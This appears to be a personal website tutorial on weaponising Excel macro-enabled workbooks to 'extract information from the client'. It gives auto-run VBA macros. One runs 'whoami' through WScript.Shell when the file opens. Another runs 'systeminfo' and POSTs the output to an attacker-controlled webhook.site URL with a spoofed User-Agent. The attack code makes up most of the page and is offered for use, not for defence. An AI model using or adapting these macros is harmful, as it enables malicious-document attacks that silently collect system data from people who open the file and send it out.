

# Excel and Macros

### Introduction

Macros on Excel allow a user to run Visual Basic Code in the background of a document. This section of my website will be dedicated to playing around with macros, and finding ways to extract information from the client.

### Setup

In order to create a Excel file that we are able to create macros, we will have create a file with an extension of ".xlsm". This version of Excel has macros enabled, and will allow us to make and edit macros on it. This file version should be standard in Excel, so in order to do this, you just have to create a file and save it in the ".xlsm" format. Under the View tab, you will see Macros, and from there you can edit the macros.

### Popup Message

We can create a popup message that will appear when somebody enables the macros when they first open the document.

```cpp
'Code gotten from https://analysistabs.com/excel-vba/run-macro-automatically-opening-workbook/'
Sub Auto_Open()

    Msgbox "Popup Message Here"

End Sub
```

### Print Desktop Name

We can use the Visual Basic code to display the name of the Desktop to the screen when macros are enabled.

```csharp
'Source: https://www.youtube.com/watch?v=e2icQFxhp3w'
Sub Workbook_Open()
    Set Excel_Shell = CreateObject("WScript.Shell")
    Set Excel_Shell_Exec = Excel_Shell.Exec("whoami")
    MsgBox (Excel_Shell_Exec.StdOut.ReadAll)
End Sub
```

We have to copy this code under Microsoft Excel Objects in order to get it to work.



After this you can save and exit the Excel file. When you open it again, there should be a popup with the Desktop name.

### System Information Exfiltration

This code is meant for Windows systems \(tested on Windows 10\), and sends the output of the "systeminfo" command on Windows to an external website, where you can read it by entering your own webhook link. The client will notice the Command Prompt pop up for this code.

```csharp
Sub Workbook_Open()
    Set Excel_Shell = CreateObject("WScript.Shell")
    Set Excel_Shell_Exec = Excel_Shell.Exec("systeminfo")
    'Source: https://stackoverflow.com/questions/158633/how-can-i-send-an-http-post-request-to-a-server-from-excel-using-vba'
    Set objHTTP = CreateObject("MSXML2.ServerXMLHTTP")
    Url = "your https://webhook.site link"
    objHTTP.Open "POST", Url, False
    objHTTP.setRequestHeader "User-Agent", "Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)"
    objHTTP.send ("Systeminfo: " + Excel_Shell_Exec.StdOut.ReadAll)
End Sub

```


